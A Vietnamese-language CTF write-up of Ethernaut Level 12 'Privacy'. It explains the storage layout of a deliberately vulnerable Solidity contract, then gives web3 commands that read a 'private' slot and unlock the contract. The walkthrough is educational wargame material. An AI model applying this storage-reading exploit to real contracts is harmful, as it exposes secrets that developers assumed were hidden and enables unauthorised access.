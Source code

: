 ```yaml
---
title: "[Ethernaut CTF] Level 12: Privacy"
date: 2024-01-23 21:19:00 +0800
categories: [Blockchain, Ethereum]
tags: [Blockchain, Solidity, Ethereum, CTF]
published: true
image:
 path: https://ethernaut.zeppelin.solutions/imgs/BigLevel12.svg
---
```

# Level 12: Privacy
##  Difficulty: ★★★☆☆

## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```
## Target
Tìm cách unlock contract.

## Phân tích
- Quan sát hàm unlock thì ta cần giá trị của data[2]
```solidity
function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
```
- Nhìn qua lượt các biến 
```solidity
bool public locked = true;
uint256 public ID = block.timestamp;
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(block.timestamp);
bytes32[3] private data;
 
```
- Slot 0 : locked
- Slot 1: ID
- Slot 2: flattening, denomination, awkardness
- Slot 3, 4, 5, 6: lần lượt là các biến của data
=> data[2] ở slot 5
## Solution
- Lấy giá trị của data[2] ở slot 5
```javascript
str = await web3.eth.getStorageAt(instance, 5);
0x682b111ececfad832e498e84761b9326f69965c5131428c6e6a18d477ba4c52d  

```
- Vì require chỉ cần 16 byte đầu 
```javascript
key=str.slice(0,34)

```
=> Unlock contract
```javascript
await contract.unlock(key);

```
**Submit** -> Done






